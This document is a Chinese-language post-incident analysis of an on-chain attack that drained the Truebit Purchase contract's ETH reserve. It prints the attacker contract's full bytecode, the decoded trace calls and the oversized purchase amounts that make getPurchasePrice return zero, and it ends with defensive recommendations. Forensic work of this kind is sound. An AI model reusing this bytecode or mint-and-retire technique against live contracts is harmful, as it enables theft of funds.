

# Truebit Purchase 池子被抽干事件分析

> **日期**: 2026-01-09  
> **攻击交易**: `0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014`

---

## 目录

1. [事件概览](#事件概览)
2. [攻击者信息](#攻击者信息)
3. [攻击者合约分析](#攻击者合约分析)
4. [Purchase 合约分析](#purchase-合约分析)
5. [交易回执解析](#交易回执解析)
6. [攻击流程追踪](#攻击流程追踪)
7. [攻击代码分析](#攻击代码分析)
8. [漏洞根因分析](#漏洞根因分析)
9. [结论](#结论)
10. [安全建议](#安全建议)

---

## 事件概览

### 查看交易详情

```bash
cast tx 0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014 --rpc-url https://eth.llamarpc.com
```


---

## 攻击者信息

| 角色 | 地址 |
|------|------|
| **攻击者 EOA** | `0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50` |
| **攻击者合约** | `0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8` |
| **目标合约 (Purchase)** | `0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2` |
| **TRU Token** | `0xf65b5c5104c4fafd4b709d9d60a185eae063276c` |

**攻击交易参数**:
- 方法签名: `0x64dd891a`
- 参数: `16345785d8a0000`
- 交易 value: `0.1 ETH`


> **推测**: 攻击方法签名可能为 `attack(uint256)`

---

## 攻击者合约分析

### 获取合约字节码

```bash
cast code 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8 --rpc-url https://eth.llamarpc.com
```


<details>
<summary>完整字节码</summary>

```
0x6080604052600436101561001a575b3615610018575f80fd5b005b5f3560e01c80633ccfd60b14610d405780634b70f3ed146109dc57806364dd891a146106365780636e8af9fb1461060d57806389476069146104bc5780638da5cb5b14610478578063d4b8399214610434578063e99b36d4146100c95763fc0c546a0361000e57346100c5575f3660031901126100c5576040517f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b03168152602090f35b5f80fd5b60403660031901126100c5576024357f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316600435610110338314610d9a565b47907f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef2905f80604051602081019063c59d563360e01b82528460248201526024815261015d604482610dd3565b519082865af161016b610e09565b90156103fa57602081519181808201938492010103126100c55751904782116103c5575f918291604051602081019163a029621560e01b83526024820152602481526101b8604482610dd3565b5191855af16101c5610e09565b5015610393576040516370a0823160e01b81523060048201527f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b031691602082602481865afa9182156102eb575f9261035f575b5060405163095ea7b360e01b81526001600160a01b03821660048201526024810183905292602090849060449082905f905af19182156102eb575f938493610332575b5082604051602081019263c471b10b60e01b845260248201526024815261028b604482610dd3565b51925af1610297610e09565b50156102ff575f8080936102d0828080806102b3819947610e60565b9a6102bf818d11610e6d565b415af16102ca610e09565b50610eb9565b47908282156102f6575bf1156102eb57602090604051908152f35b6040513d5f823e3d90fd5b506108fc6102da565b60405162461bcd60e51b815260206004820152600b60248201526a14d95b1b0819985a5b195960aa1b6044820152606490fd5b6103539060203d602011610358575b61034b8183610dd3565b810190610e48565b610263565b503d610341565b9091506020813d60201161038b575b8161037b60209383610dd3565b810103126100c557519086610220565b3d915061036e565b60405162461bcd60e51b815260206004820152600a602482015269109d5e4819985a5b195960b21b6044820152606490fd5b60405162461bcd60e51b815260206004820152600d60248201526c10d85b9b9bdd081859999bdc99609a1b6044820152606490fd5b60405162461bcd60e51b8152602060048201526012602482015271141c9a58d94818da1958dac819985a5b195960721b6044820152606490fd5b346100c5575f3660031901126100c5576040517f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef26001600160a01b03168152602090f35b346100c5575f3660031901126100c5576040517f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b03168152602090f35b346100c55760203660031901126100c5576004356001600160a01b038116908181036100c5577f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b509160249060209061051e336001600160a01b03871614610d9a565b6040516370a0823160e01b815230600482015292839182905afa9081156102eb575f916105d9575b5060405163a9059cbb60e01b602082019081526001600160a01b039490941660248201526044808201929092529081525f928392918390610588606482610dd3565b51925af1610594610e09565b501561059c57005b60405162461bcd60e51b8152602060048201526015602482015274151bdad95b881d1c985b9cd9995c8819985a5b1959605a1b6044820152606490fd5b9190506020823d602011610605575b816105f560209383610dd3565b810103126100c55790515f610546565b3d91506105e8565b346100c55760203660031901126100c55760043560058110156100c55760209054604051908152f35b60203660031901126100c5576004357f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b031661067a338214610d9a565b7f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef28031907f6716b322fccc3352e152d32e902fc2871ba82dd1fb7e3196e9179a48b4f946e3604047938151908152846020820152a17f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b0316915f5b60058110156109b7578054905f80604051602081019063c59d563360e01b825285602482015260248152610731604482610dd3565b519082885af161073f610e09565b901561099057602081519181808201938492010103126100c5575191478311610990575f80604051602081019063a029621560e01b82528460248201526024815261078b604482610dd3565b519086895af1610799610e09565b5015610990576040516370a0823160e01b8152306004820152906020826024818a5afa9182156102eb575f9261095d575b5060405163095ea7b360e01b81526001600160a01b0387166004820152602481018390526020816044815f8c5af180156102eb57610941575b50475f80604051602081019063c471b10b60e01b82528660248201526024815261082e604482610dd3565b5190828b5af161083c610e09565b50156108ca5761084c9047610e60565b9360018401908185116108b6576001957fa0d7b17f422ea83e28a4c4e6c63d1084a89a826c9d404d269c168bbc3415d153946108ad92604051958695869192608093969594919660a084019784526020840152604083015260608201520152565b0390a1016106fc565b634e487b7160e01b5f52601160045260245ffd5b50505050505f9485949185945084935f516020610ef55f395f51905f52926108f56060935b47610e60565b9131610902828411610e6d565b6109158780808086415af16102ca610e09565b60405192835260208301526040820152a14790828215610938575bf1156102eb57005b506108fc610930565b6109589060203d81116103585761034b8183610dd3565b610803565b9091506020813d8211610988575b8161097860209383610dd3565b810103126100c5575190896107ca565b3d915061096b565b5050505f9485949185945084935f516020610ef55f395f51905f52926108f56060936108ef565b505f9485949185945084935f516020610ef55f395f51905f52926108f56060936108ef565b5f3660031901126100c5577f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316610a1c338214610d9a565b7f000000000000000000000000764c64b2a09b09acb100b80d8c505aa6a0302ef2908131907f6716b322fccc3352e152d32e902fc2871ba82dd1fb7e3196e9179a48b4f946e3604047938151908152846020820152a17f000000000000000000000000f65b5c5104c4fafd4b709d9d60a185eae063276c6001600160a01b0316905f5b6005811015610d1c578054905f80604051602081019063c59d563360e01b825285602482015260248152610ad4604482610dd3565b5190828a5af1610ae2610e09565b9015610cf657602081519181808201938492010103126100c5575191478311610cf6575f80604051602081019063a029621560e01b825284602482015260248152610b2e604482610dd3565b5190868b5af1610b3c610e09565b5015610cf6576040516370a0823160e01b815230600482015290602082602481895afa9182156102eb575f92610cc3575b5060405163095ea7b360e01b81526001600160a01b0389166004820152602481018390526020816044815f8b5af180156102eb57610ca7575b50475f80604051602081019063c471b10b60e01b825286602482015260248152610bd1604482610dd3565b5190828d5af1610bdf610e09565b5015610c5957610bef9047610e60565b9360018401908185116108b6576001957fa0d7b17f422ea83e28a4c4e6c63d1084a89a826c9d404d269c168bbc3415d15394610c5092604051958695869192608093969594919660a084019784526020840152604083015260608201520152565b0390a101610a9f565b50505050505f9384938493506060849392610c825f516020610ef55f395f51905f529347610e60565b90316040519182526020820152846040820152a1479082821561093857f1156102eb57005b610cbe9060203d81116103585761034b8183610dd3565b610ba6565b9091506020813d8211610cee575b81610cde60209383610dd3565b810103126100c557519088610b6d565b3d9150610cd1565b5050505f9384938493506060849392610c825f516020610ef55f395f51905f52936108ef565b505f9384938493506060849392610c825f516020610ef55f395f51905f52936108ef565b346100c5575f3660031901126100c5575f8080807f0000000000000000000000006c8ec8f14be7c01672d31cfa5f2cefeab2562b506001600160a01b0316610d89338214610d9a565b479082821561093857f1156102eb57005b15610da157565b60405162461bcd60e51b815260206004820152600a60248201526927b7363c9037bbb732b960b11b6044820152606490fd5b90601f8019910116810190811067ffffffffffffffff821117610df557604052565b634e487b7160e01b5f52604160045260245ffd5b3d15610e43573d9067ffffffffffffffff8211610df55760405191610e38601f8201601f191660200184610dd3565b82523d5f602084013e565b606090565b908160209103126100c5575180151581036100c55790565b919082039182116108b657565b15610e7457565b60405162461bcd60e51b815260206004820152601a60248201527f4e6f742070726f66697461626c652061667465722062726962650000000000006044820152606490fd5b15610ec057565b60405162461bcd60e51b815260206004820152600c60248201526b109c9a58994819985a5b195960a21b6044820152606490fdfee2ca9b9c723a2d935eed69e4eb3a67ef35c993358a09e8685756e44a4d79eef2a2646970667358221220e682f1ac7b3b043528661857e6ce0e4c7d9a39ec9b6b96c2b9deb624fcf87e9e64736f6c634300081e0033
```

</details>

### 合约方法签名


| 方法 | 说明 |
|------|------|
| `withdraw()` | 提取 ETH |
| `withdrawToken(address)` | 提取指定代币 |
| `owner()` | 返回攻击者 EOA 地址 |
| `target()` | 返回 Purchase 资金池地址 |
| `token()` | 返回 TRU Token 地址 |

### 验证合约方法

```bash
# 获取 token 地址
cast call 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8 "token()(address)" --rpc-url https://eth.llamarpc.com

# 获取目标合约地址
cast call 0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8 "target()(address)" --rpc-url https://eth.llamarpc.com --block 24191019

# 验证 token symbol
cast call 0xf65b5c5104c4fafd4b709d9d60a185eae063276c "symbol()(string)" --rpc-url https://eth.llamarpc.com
```


---

## Purchase 合约分析

### 代理合约识别

```bash
# 获取代理合约字节码
cast code 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2 --rpc-url https://eth.llamarpc.com

# 读取 EIP-1967 implementation slot 获取实现合约地址
cast storage 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2 \
  0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc \
  --rpc-url https://eth.llamarpc.com
```

> **结论**: Purchase 为 **透明代理合约**
> - Proxy 地址: `0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2`
> - 实现合约地址: `0xc186e6f0163e21be057e95aa135edd52508d14d3`


### 方法签名解析 (4byte)

```bash
cast 4byte 0xa0296215   # buyTRU(uint256)
cast 4byte 0xc471b10b   # retire(uint256)
cast 4byte 0xc59d5633   # getPurchasePrice(uint256)
cast 4byte 0xc4fd5002   # getRetirePrice(uint256)
cast 4byte 0xcd3293de   # reserve()
```


| Selector | 方法名 | 功能 |
|----------|--------|------|
| `0xc59d5633` | `getPurchasePrice(uint256)` | 获取购买价格 (view) |
| `0xa0296215` | `buyTRU(uint256)` | 购买 TRU (payable) |
| `0xc471b10b` | `retire(uint256)` | 销毁 TRU 并兑付 ETH |
| `0xc4fd5002` | `getRetirePrice(uint256)` | 获取赎回价格 (view) |
| `0xcd3293de` | `reserve()` | 获取储备金额 |

---

## 交易回执解析

### 提取 Transfer 日志

```bash
# 导出完整回执
cast receipt 0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014 \
  --rpc-url $ETH_RPC_URL --json > receipt.json

# 过滤 TRU Transfer 事件
jq -c '
  .logs[]
  | select(.address|ascii_downcase=="0xf65b5c5104c4fafd4b709d9d60a185eae063276c")
  | select(.topics[0]|ascii_downcase=="0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef")
  | . as $l
  | ($l.topics[1] | ascii_downcase) as $t1
  | ($l.topics[2] | ascii_downcase) as $t2
  | ("0x" + ($t1[-40:])) as $from
  | ("0x" + ($t2[-40:])) as $to
  | ($l.data | ascii_downcase) as $data
  | {
      logIndex: $l.logIndex,
      from: $from,
      to: $to,
      kind: (if $from=="0x0000000000000000000000000000000000000000" then "MINT"
             elif $to=="0x0000000000000000000000000000000000000000" then "BURN"
             else "TRANSFER" end),
      amount_hex: $data
    }
' receipt.json > tru_transfer_decoded.jsonl
```


### Transfer 日志解码结果

循环执行 **5 次**，每轮包含: `MINT → TRANSFER → BURN`

#### Round 1 (logIndex 0x8 / 0xa / 0xc)

| 操作 | From → To | Amount (TRU) |
|------|-----------|--------------|
| MINT | `0x0` → `0x1De3...11b8` | 240,442,509.45 TRU |
| TRANSFER | `0x1De3...11b8` → `0x764C...2EF2` | 同上 |
| BURN | `0x764C...2EF2` → `0x0` | 同上 |

#### Round 2 (logIndex 0xe / 0x10 / 0x12)

| 操作 | From → To | Amount (TRU) |
|------|-----------|--------------|
| MINT | `0x0` → `0x1De3...11b8` | 441,010,174.51 TRU |
| TRANSFER | `0x1De3...11b8` → `0x764C...2EF2` | 同上 |
| BURN | `0x764C...2EF2` → `0x0` | 同上 |

#### Round 3 (logIndex 0x14 / 0x16 / 0x18)

| 操作 | Amount (TRU) |
|------|--------------|
| 三段式操作 | 970,752,178.50 TRU |

#### Round 4 (logIndex 0x1a / 0x1c / 0x1e)

| 操作 | Amount (TRU) |
|------|--------------|
| 三段式操作 | 2,808,567,055.50 TRU |

#### Round 5 (logIndex 0x20 / 0x22 / 0x24)

| 操作 | Amount (TRU) |
|------|--------------|
| 三段式操作 | 12,548,923,878.78 TRU |

<details>
<summary>完整 Transfer 日志 JSON</summary>

```json
{"logIndex":"0x8","from":"0x0000000000000000000000000000000000000000","to":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","kind":"MINT","amount_hex":"0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"}
{"logIndex":"0xa","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","kind":"TRANSFER","amount_hex":"0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"}
{"logIndex":"0xc","from":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","to":"0x0000000000000000000000000000000000000000","kind":"BURN","amount_hex":"0x000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3"}
{"logIndex":"0xe","from":"0x0000000000000000000000000000000000000000","to":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","kind":"MINT","amount_hex":"0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"}
{"logIndex":"0x10","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","kind":"TRANSFER","amount_hex":"0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"}
{"logIndex":"0x12","from":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","to":"0x0000000000000000000000000000000000000000","kind":"BURN","amount_hex":"0x0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e"}
{"logIndex":"0x14","from":"0x0000000000000000000000000000000000000000","to":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","kind":"MINT","amount_hex":"0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"}
{"logIndex":"0x16","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","kind":"TRANSFER","amount_hex":"0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"}
{"logIndex":"0x18","from":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","to":"0x0000000000000000000000000000000000000000","kind":"BURN","amount_hex":"0x00000000000000000000000000000000000000000322fcc50b35f89607cb6510"}
{"logIndex":"0x1a","from":"0x0000000000000000000000000000000000000000","to":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","kind":"MINT","amount_hex":"0x0000000000000000000000000000000000000000091331352846369f78c25c5f"}
{"logIndex":"0x1c","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","kind":"TRANSFER","amount_hex":"0x0000000000000000000000000000000000000000091331352846369f78c25c5f"}
{"logIndex":"0x1e","from":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","to":"0x0000000000000000000000000000000000000000","kind":"BURN","amount_hex":"0x0000000000000000000000000000000000000000091331352846369f78c25c5f"}
{"logIndex":"0x20","from":"0x0000000000000000000000000000000000000000","to":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","kind":"MINT","amount_hex":"0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"}
{"logIndex":"0x22","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","kind":"TRANSFER","amount_hex":"0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"}
{"logIndex":"0x24","from":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","to":"0x0000000000000000000000000000000000000000","kind":"BURN","amount_hex":"0x0000000000000000000000000000000000000000288c39fe96308e75654c4ef6"}
```

</details>

---

## 攻击流程追踪

### 完整 Trace 获取

```powershell
cast run --rpc-url $env:ETH_RPC_URL `
  --decode-internal `
  --trace-printer `
  $TX | Out-File cast_run_trace.txt -Encoding utf8
```

### 提取对 Purchase 合约的调用

```bash
jq -c '
  .. | objects
  | select(has("to") and has("input"))
  | select((.to|ascii_downcase)=="0x764c64b2a09b09acb100b80d8c505aa6a0302ef2")
  | {type, from, to, value, input, selector: (.input[0:10]), output, error}
' trace_callTracer.json > calls_to_purchase_with_output.jsonl
```

<details>
<summary>完整调用序列</summary>

```json
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d5633000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000000000000000000","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xa0296215000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000000000000000000","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b000000000000000000000000000000000000000000c6e3ae8e2cbab1298abaa3","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000114bf0f22ce0757eb5e","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000000000000000006","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x6","input":"0xa02962150000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000000000000000006","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000016ccb8976fdb1728dc1a45e","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000088371252f11e393d48","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d563300000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000001224049032319","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x1224049032319","input":"0xa029621500000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000001224049032319","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b00000000000000000000000000000000000000000322fcc50b35f89607cb6510","selector":"0xc471b10b","output":"0x00000000000000000000000000000000000000000000002ad33632f75a67bbb2","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xc59d5633","output":"0x0000000000000000000000000000000000000000000000000035e3bc453b621f","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x35e3bc453b621f","input":"0xa02962150000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xa0296215","output":"0x0000000000000000000000000000000000000000000000000035e3bc453b621f","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000091331352846369f78c25c5f","selector":"0xc471b10b","output":"0x000000000000000000000000000000000000000000000006bf55a1e2666cb08e","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc59d56330000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xc59d5633","output":"0x00000000000000000000000000000000000000000000000046fc1d5917dc2cd3","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x46fc1d5917dc2cd3","input":"0xa02962150000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xa0296215","output":"0x00000000000000000000000000000000000000000000000046fc1d5917dc2cd3","error":null}
{"type":"CALL","from":"0x1de399967b206e446b4e9aeeb3cb0a0991bf11b8","to":"0x764c64b2a09b09acb100b80d8c505aa6a0302ef2","value":"0x0","input":"0xc471b10b0000000000000000000000000000000000000000288c39fe96308e75654c4ef6","selector":"0xc471b10b","output":"0x00000000000000000000000000000000000000000000000073bc85cf8fd29d9a","error":null}
```

</details>

---

## 攻击代码分析

### 关键 Selector 作用

#### `0xc59d5633` - `getPurchasePrice(uint256)` (报价 / view)

- **特征**: `value = 0`，返回 `uint256` (wei)
- **证据链**: 每轮该函数的 `output` **严格等于**下一步 `buyTRU` 调用的 `msg.value`

**各轮输出 (wei)**:

| Round | Output (wei) | Output (ETH) |
|-------|--------------|--------------|
| 1 | `0x0` | 0 ETH |
| 2 | `0x6` | 6 wei |
| 3 | `0x1224049032319` | 0.000319 ETH |
| 4 | `0x35e3bc453b621f` | 0.015168 ETH |
| 5 | `0x46fc1d5917dc2cd3` | 5.114995 ETH |

#### `0xa0296215` - `buyTRU(uint256)` (payable 买入 / 触发 mint)

- **特征**: payable，`msg.value` 非 0 时带入调用；`output` 回显 `msg.value`
- **证据链**: 每轮 `buy` 的 `value` **等于**上一条 `getPurchasePrice` 的 `output`
- **Bytecode 错误字符串**: `"ETH payment does not match TRU order"`
  - 逻辑等价于: `require(msg.value == getPurchasePrice(amount))`
- 触发 `mint(msg.sender, amount)` (selector `0x40c10f19`)

#### `0xc471b10b` - `retire(uint256)` (销毁并兑付 ETH)

- **特征**: `value = 0`，返回 `uint256` (wei)，对应实际兑付 ETH 数额
- **流程**:
  1. `allowance` 检查 → 不足会 revert: `"Insufficient TRU allowance"`
  2. `transferFrom(user, this, amount)` 拉走 TRU
  3. `burn(amount)` 销毁 TRU
  4. `call{value: refund}("")` 给调用者转 ETH

**各轮兑付 ETH**:

| Round | Output (hex) | Output (ETH) |
|-------|--------------|--------------|
| 1 | `0x114bf0f22ce0757eb5e` | **5,105.07 ETH** |
| 2 | `0x88371252f11e393d48` | **2,512.73 ETH** |
| 3 | `0x2ad33632f75a67bbb2` | **789.98 ETH** |
| 4 | `0x06bf55a1e2666cb08e` | **124.47 ETH** |
| 5 | `0x73bc85cf8fd29d9a` | **8.34 ETH** |

---

### 5 轮完整攻击路径

> 每轮结构: `getPurchasePrice(amount)` → `buyTRU(amount)` (支付 msg.value) → `retire(amount)` (返回兑付 ETH)
>
> 同一轮 TRU 事件表现：`mint → attacker → purchase → burn`，amount 完全一致

| Round | TRU Amount | 买入成本 | 赎回收入 | 单轮利润 |
|:-----:|----------:|----------:|----------:|----------:|
| 1 | 240,442,509.45 TRU | **0 ETH** | 5,105.07 ETH | 5,105.07 ETH |
| 2 | 441,010,174.51 TRU | **6 wei** | 2,512.73 ETH | 2,512.73 ETH |
| 3 | 970,752,178.50 TRU | 0.000319 ETH | 789.98 ETH | 789.98 ETH |
| 4 | 2,808,567,055.50 TRU | 0.015169 ETH | 124.47 ETH | 124.45 ETH |
| 5 | 12,548,923,878.78 TRU | 5.115 ETH | 8.34 ETH | 3.22 ETH |

> [!WARNING]
> **Round 1 购买成本为 0 ETH**，仍能成功铸造超过 2.4 亿 TRU！

---

## 漏洞根因分析

### Purchase 实现合约 Bytecode 分析

#### 确认 "Purchase/Reserve + Mint/Burn" 模型

在实现合约 bytecode 中能直接识别对 TRU token 的外部调用 selector：

| Selector | 方法 | 业务路径 |
|----------|------|----------|
| `0x40c10f19` | `mint(address,uint256)` | buy 路径触发铸币 |
| `0x42966c68` | `burn(uint256)` | retire 路径触发销毁 |
| `0x23b872dd` | `transferFrom(address,address,uint256)` | retire 时从用户拉币到合约 |
| `0xdd62ed3e` | `allowance(address,address)` | retire 前检查授权 |
| `0x18160ddd` | `totalSupply()` | 价格/赎回计算常见依赖项 |

这与链上事件观察到的 `mint → attacker → purchase → burn` 完全吻合。

### 攻击套利闭环



1. 攻击者调用 `getPurchasePrice(amount)` 得到报价 `price`
2. 调用 `buyTRU(amount)` 支付 `msg.value = price` (严格匹配)
3. `buyTRU` 触发 `mint(msg.sender, amount)` → TRU 铸造给攻击者
4. 攻击者调用 `retire(amount)`:
   - 合约 `transferFrom` 拉走 TRU
   - 合约 `burn(amount)` 销毁 TRU
   - 合约从 reserve **兑付巨额 ETH** 给攻击者

---

### 价格函数测试验证

```bash
# 小额价格 (1 TRU)
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2 \
  "getPurchasePrice(uint256)(uint256)" 1000000000000000000 \
  --rpc-url https://eth.llamarpc.com --block 24191018
# 结果: 422342518139879 (wei)

# 攻击中使用的超大数量
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2 \
  "getPurchasePrice(uint256)(uint256)" 240442509453545333947284131 \
  --rpc-url https://eth.llamarpc.com --block 24191018
# 结果: 0 ⚠️

# 卖出价格 (同样的超大数量)
cast call 0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2 \
  "getRetirePrice(uint256)(uint256)" 240442509453545333947284131 \
  --rpc-url https://eth.llamarpc.com --block 24191018
# 结果: 12693636824572596709415 (wei) ≈ 12,693 ETH
```


> [!CAUTION]
> `getPurchasePrice` 对极大输入返回 **0**，说明存在 **输入域约束缺失** 或 **整数运算顺序/精度截断问题**

---

## 结论

### 漏洞本质

1. **买入端定价缺陷**: `getPurchasePrice(amount)` 在超大 `amount` 输入域出现退化（返回 0 或极小值）
2. **校验通过**: `buyTRU(amount)` 以极低 `msg.value` 仍能通过等值校验并触发铸币
3. **赎回端正常**: `retire(amount)` 对同一 `amount` 计算的兑付却是巨额 ETH
4. **形成确定性套利闭环**: 循环抽干 reserve

### 根因层（需反编译/源码确认）

可能的根因：
- 整数精度截断
- 缩放因子错误
- 运算顺序问题
- 缺少输入上限

> [!NOTE]
> 当前证据不足以把根因锁死为 "溢出"

---

## 安全建议

> [!IMPORTANT]
> 以下为自查建议清单

### 1. 输入上限约束

对 `amount` 加上限（例如基于 reserve、totalSupply、或业务允许的最大订单）

```solidity
require(amount <= maxPurchaseAmount, "Amount exceeds limit");
```

### 2. 非零价格断言

```solidity
require(price > 0, "price=0");
```

### 3. 买卖定价一致性检查 (Invariant)

同一 `amount` 下应满足：

```
retirePrice <= purchasePrice * (1 - fee)
```

### 4. 紧急暂停开关

实现 Circuit Breaker / Pause 机制

```solidity
modifier whenNotPaused() {
    require(!paused, "Contract is paused");
    _;
}
```

### 5. 上链监控

- 检测 `getPurchasePrice(large_amount) == 0` 立即报警
- 单笔 sell 兑付超过阈值立即报警
